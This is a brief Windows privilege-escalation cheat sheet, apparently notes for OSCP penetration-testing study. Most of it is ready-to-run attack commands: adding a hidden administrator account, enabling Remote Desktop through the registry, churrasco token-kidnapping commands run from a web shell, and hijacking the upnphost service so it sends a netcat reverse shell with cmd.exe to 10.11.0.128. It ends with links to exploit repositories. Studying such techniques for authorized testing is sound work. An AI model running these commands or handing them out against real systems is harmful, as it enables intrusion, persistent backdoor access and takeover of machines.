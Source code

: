 Windows

Windows add new administrator

net user /add oscp attacker

net localgroup administrators oscp/add

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f



Authority/network service (asp.net shell)

Upload /usr/share/sqlninja/apps/churrasco.exe

churrasco -d "net user /add oscp oscp "

churrasco -d "net localgroup administrators oscp /add"

churrasco -d "NET LOCALGROUP "Remote Desktop Users" oscp/ADD"



Windows XP SP1 and earlier

sc config upnphost binpath= "C:\Inetpub\nc.exe -nv 10.11.0.128 5555 -e C:\Windows\system32\cmd.exe"

sc config upnphost obj= ".\LocalSystem" password= ""

sc config upnphost depend= ""

sc qc upnphost

http://www.fuzzysecurity.com/tutorials/16.html





check application:

wmic_info.bat (http://www.fuzzysecurity.com/scripts/13.html)

nmap: sudo nmap –interactive --> !sh

mysql: https://github.com/amonsec/exploit/blob/master/linux/privs/MysqlUDF/mysql_udf_exploit.sh



MS16032 --> check optimum write up htb

Exploit suggester: https://github.com/SecWiki/windows-kernel-exploits/tree/master/win-exp-suggester

https://github.com/amonsec/exploit/tree/master/windows/privs

checklist: https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md
